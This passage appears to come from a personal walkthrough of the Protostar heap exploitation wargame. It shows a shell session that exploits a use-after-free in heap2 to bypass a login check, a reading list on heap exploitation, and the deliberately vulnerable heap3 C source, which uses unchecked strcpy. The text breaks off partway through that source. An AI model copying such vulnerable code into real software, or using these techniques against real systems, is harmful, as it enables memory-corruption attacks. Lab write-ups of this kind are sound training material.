 Without digging deep into the heap structure one sees that it is possible to make the `auth structure pointer` point at undefined memory 
by first running `auth` and after `reset`

This combined with the possibiliy to enter data on the heap with the `service` option, means that we probably can overwrite the location auth points at and in return make auth->auth non null and the login will pass.

Lets verify our theory:

```
root@kali:~/Desktop/pentest/protostar/heap# ./heap2 
[ auth = (nil), service = (nil) ]
service
[ auth = (nil), service = 0x804c008 ]
auth apa
[ auth = 0x804c018, service = 0x804c008 ]
reset
[ auth = 0x804c018, service = 0x804c008 ]
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c018, service = 0x804c028 ]
login
you have logged in already!
[ auth = 0x804c018, service = 0x804c028 ]
```

##Heap3

Time to do some reading on heap exploitation
http://phrack.org/issues/57/8.html#article <-- theoretical
http://phrack.org/issues/57/9.html#article <-- dlmalloc part most interesting, great paper, should read it...
http://www.cgsecurity.org/exploit/heaptut.txt <-- popular
http://phrack.org/issues/66/6.html#article <-- newer method 
The shellcoders handbook, chapter 5 <-- great one
(Procedure Linking Table)
http://hamsa.cs.northwestern.edu/media/readings/heap_overflows.pdf <-- w00w00 heap exploit paper, okay but not super...

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

```